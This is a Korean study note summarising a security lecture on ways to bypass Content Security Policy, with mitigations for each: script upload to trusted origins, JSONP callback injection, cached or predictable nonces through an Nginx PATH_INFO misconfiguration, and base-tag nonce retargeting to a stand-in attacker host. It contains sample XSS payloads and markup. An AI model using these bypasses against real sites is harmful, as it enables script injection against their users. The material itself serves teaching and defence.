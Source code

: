 # CSP Bypass
* **Content Security Policy**(CSP): XSS 취약점을 활용한 공격으로부터 피해를 최소화하기 위해 새롭게 추가된 보안 계층
    - ⚠️ XSS를 방어하기 위한 훌륭한 방어책이지만, **보호 기법이 적용되어 있다고 해서 100% 보안은 장담할 수 없음**
    - CSP 구문을 올바르지 않게 설정할 경우 이를 우회하고 공격할 수 있는 방법들이 존재함

<br/><br/>

## CSP 우회: 신뢰하는 도메인에 업로드
* CSP에서 자원을 불러올 수 있도록 허용한 출처가 **파일 업로드 및 다운로드 기능을 제공**할 경우 출처에 스크립트와 같은 자원을 업로드한 뒤 다운로드 경로로 웹 페이지 자원을 포함시킬 수 있음
    + 외부 자원 업로드 예시
        ```html
        <!-- 스크립트 태그의 출처를 현재 페이지와 같은 출처(self)로 제한하는 Policy Directive -->
        <meta http-equiv="Content-Security-Policy" content="script-src 'self'">

        <!-- ... -->

        <!-- download_file.php의 id 값을 177742인 것을 다운로드 하고 있음 (download_file.php은 현재 페이지와 같은 출처에 위치함) → CSP 우회 성공 -->
        <h1>검색 결과: <script src="/download_file.php?id=177742"></script></h1>
        ```

<br/><br/>

## CSP 우회: JSONP API
* CSP에서 허용한 출처가 JSONP API를 지원할 경우 ```callback``` 파라미터에 원하는 스크립트를 삽입하여 공격이 가능함
    - JSONP API를 이용한 CSP 우회 예시
        + 웹 페이지에서 ```*.google.com```에서 온 출처만 허용한다면, 구글에서 JSONP API를 지원하는 서버(Google Account 서비스)를 찾아 아래와 같이 ```callback```에 원하는 스크립트를 삽입할 수 있음
            ```
            https://accounts.google.com/o/oauth2/revoke?callback=alert(1);
            ```

<br/>

* JSONP API를 이용한 CSP 우회를 방지하기 위한 방법
    - JSONP API를 제공하는 서비스는 콜백 이름에 식별자를 제외한 문자를 거부함으로써 이를 추가적으로 방어할 수 있음
        + JSONP API의 문자 검사 예시
            ```html
            <!-- 스크립트 태그의 출처를 https://*.google.com/으로 제한하는 Policy Directive -->
            <meta http-equiv="Content-Security-Policy" content="script-src 'https://*.google.com/'">

            <!-- ... -->

            <!-- JSONP API를 지원하는 Google Account 서버에서 callback에 스크립트를 삽입해 CSP 우회를 시도함 -->
            <script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1);"></script>>
            ```
            - JSONP API가 문자 검사를 할 경우의 결과: 유효하지 않은 인자를 주었다는 오류(error) 메시지를 반환함
                ```
                alert(1);({
                    "error": {
                        "code": 400,
                        "message": "Invalid JSONP callback name: 'alert(1)'; only alphabet, number, '_', '$', '.', '[', and ']' are allowed.",
                        "status": "INVALID_ARGUMENT"
                    }
                });
                ```
    - 가능한 경우 JSONP보다는 **CORS를 지원하는 API를 사용하는 것**이 좋음

<br/><br/>

## CSP 우회: nonce 예측 가능
* CSP의 ```nonce```를 이용하면 도메인이나 해시 등을 지정하지 않아도 **공격자가 예측할 수 없는 ```nonce``` 값이 태그 속성에 존재할 것을 요구함**으로써 XSS 공격을 방어할 수 있음
    - ```nonce``` 이용 시 주의해야 하는 사항
        | 📌 주의사항 | 설명 |
        |---|------|
        | ```nonce```가 공격자가 취득하거나 <br/>**예측할 수 없는** 값이어야 함 | - ```nonce```를 이용한 방어를 효과적으로 사용하기 위한 전제 조건 <br/> &nbsp;&nbsp;&nbsp;&nbsp; - ```nonce``` 값은 보통 요청마다 새로 생성되며, 공격자가 예측할 수 없는 난숫값임 <br/> &nbsp;&nbsp;&nbsp;&nbsp; - 보안 상 안전한 의사 난수 생성기(CSPRNG)를 사용하여 ```nonce``` 값을 생성해야 함 <br/> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; - ⚠️ **```nonce```를 생성하는 알고리즘이 취약**하여 값을 예측할 수 있으면 ```nonce``` 값을 유추하여 <br/> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;악성 스크립트를 웹 사이트에 삽입할 수 있음 <br/> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; - ⚠️ 현재 시각 등 **공격자가 알 수 있는 정보를 바탕으로 ```nonce``` 값을 생성**하는 것은 의미가 없음 |
        | ```nonce``` 값을 담고 있는 <br/> HTTP 헤더 또는 ```<meta>``` 태그가 <br/> 캐싱되지 않는지 주의해야 함 | ⚠️ PHP/CGI 계열의 스크립팅을 사용할 때에는 스크립트들이 ```/index.php/style.css```처럼 **뒤에<br/> 추가적인 경로를 붙여 접근될 수 있기 때문**에 특히 주의히야 함 <br/> &nbsp;&nbsp; - **캐시 서버가 확장자를 기반으로 캐시 여부를 판단**할 경우 ```.css```는 일반적으로 정적 파일이기 때문에 <br/> &nbsp;&nbsp;&nbsp;&nbsp; 동적 컨텐츠로 간주하지 않아 캐시에 저장할 수 있음 <br/> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; → 캐시가 만료될 때까지 요청 시마다 같은 ```nonce```로 들어와 이를 통해 ```nonce```를 획득할 수 있음 <br/> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; → ⚠️ 콘텐츠가 캐시되어 서버 측 XSS는 발생하지 않지만, DOM XSS 등 **클라이언트 측에서 일어날 <br/> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;수 있는 공격에 취약**해지게 됨 |

<br/>

* 예시: Nginx와 PHP FastCGI SAPI(```php-fpm```) 사용
    ```
    location ~ \.php {
        include snippets/fastcgi-php.conf;
        fastcgi_pass unix:/run/php/php7.2-fpm.sock;
    }
    ```
    - 취약한 ```snippets/fastcgi-php.conf```의 내용 일부 (Nginx 설정)
        ```
        # regex to split $uri to $fastcgi_script_name and $fastcgi_path
        fastcgi_split_path_info ^(.+\.php)(/.+)$;

        # Check that the PHP script exists before passing it
        try_files $fastcgi_script_name =404;

        # Bypass the fact that try_files resets $fastcgi_path_info
        # see: http://trac.nginx.org/nginx/ticket/321
        set $path_info $fastcgi_path_info;
        fastcgi_param PATH_INFO $path_info;

        fastcgi_index index.php;
        include fastcgi.conf;
        ```
        + 공격 방법
            | 순서 | 설명 |
            |---|------|
            | 01 | ```/dom_xss_vulnerable.php/style.css```의 주소로 접근하면 ```dom_xss_vulnerable.php``` 파일이 실행됨 |
            | 02 | 파일 실행 결과 ```nonce```가 ```<meta https-equiv="Content-Security-Policy" content="...nonce...">``` 태그로 출력됨 |
            | 03 | CDN(Content Delivery Network)은 보통 CSS, 스크립트 등 정적 파일을 캐싱함 <br/> &nbsp;&nbsp; → ⚠️ CDN에 의해 ```<meta>``` 태그로 출력된 ```nonce```가 캐싱됨 |
            | 04 | DOM XSS에 취약한 페이지의 ```nonce``` 값이 고정되어 공격자는 <br/> ```<script nonce="{고정된 nonce 값}">alert(1);</script>```과 같은 마크업을 사용하여 공격할 수 있음 |
    - 해결 방안
        + ```PATH_INFO``` 기능을 사용하지 않는 경우 ```location ~ \.php$```처럼 URL의 끝부분이 ```.php```일 때만 FastCGI로 넘어가게 수정되어야 함
        + URL에 ```a/b.php/c/d.php```와 같이 ```.php```가 중복 사용될 때를 대비하여 **fastcgi-php.conf 스니펫을 사용하지 않고** 아래와 같이 변경해야 함
            ```
            location ~ \.php$ {
                try_files $uri = 404;
                fastcgi_index index.php;
                include fastcgi.conf;
                fastcgi_pass unix;/run/php/php7.2-fpm.sock;
            }
            ```

<br/><br/>

## CSP 우회: base-uri 미지정
* HTML ```<base>``` 태그
    - HTML 하이퍼링크에서 호스트 주소 없이 경로 지정 시 브라우저는 현재 문서를 기준으로 주소를 해석함 → **```<base>``` 태그로 경로가 해석되는 기준점을 변경할 수 있음**
    - ```<a>```, ```<form>``` 등의 ```target``` 속성의 기본값을 지정함

<br/>

* ```<base>``` 태그를 이용한 공격 과정와 이를 방어하기 위한 정책 설정
    - 공격 과정
        | 순서 | 설명 |
        |---|------|
        | 01 | 공격자가 ```<base href="https://malice.test/xss-proxy/">```와 같은 마크업을 삽입함 |
        | 02 | 이후 상대 경로를 사용하는 URL들은 **본래 의도한 위치가 아닌 공격자의 서버에 위치한 자원**을 가리키게 됨 <br/> &nbsp;&nbsp; → 공격자는 이를 통해 임의의 스크립트 등을 삽입할 수 있게 됨 |
    - ```<base>``` 태그의 ```href``` 속성을 사용하지 않는 페이지의 경우 아래의 CSP 정책 지시문을 이용해 이러한 공격을 방어할 수 있음
        ```
        Content-Security-Policy: base-uri 'none'
        ```
        + ```<base>``` 태그의 URL은 어느 것도 허용하지 않도록(none) 하는 Policy Directive

<br/>

* **Nonce Retargeting**
    - **```nonce``` CSP 구문을 지정했지만 ```base-uri``` CSP 구문을 지정하지 않은 경우** ```base``` 태그를 이용하여 임의 자원을 로드할 수 있음
    - 예시: 페이지의 임의 마크업을 삽입할 수 있는 취약점이 있지만, ```nonce``` CSP 구문으로 인해 스크립트를 삽입할 수 없는 경우
        ```html
        <!-- base 태그로 이후 상대 경로를 지정한 URL들은 https://matlice.test에 위치한 자원을 가리키게 됨 -->
        <base href="https://malice.test">

        <!-- jquery.js는 base 태그로 인해 https://malice.test/jquery.js를 가리킴 -->
        <script src="/jquery.js" nonce=NONCE>
        ```

<br/>

* ⚠️ **```base-uri``` 지시문을 임의로 지정하지 않는 이상 ```default``` 초기값이 존재하지 않음**
    - 웹 서비스를 개발할 때에는 **반드시 ```base-uri``` 지시문을 정의해 주어야 함**


<br/><br/><br/><br/>
### 🔖 출처
* [드림핵 Web Hacking Advanced - Client Side] 📌 [Exploit Tech: CSP Bypass](https://dreamhack.io/lecture/courses/322)
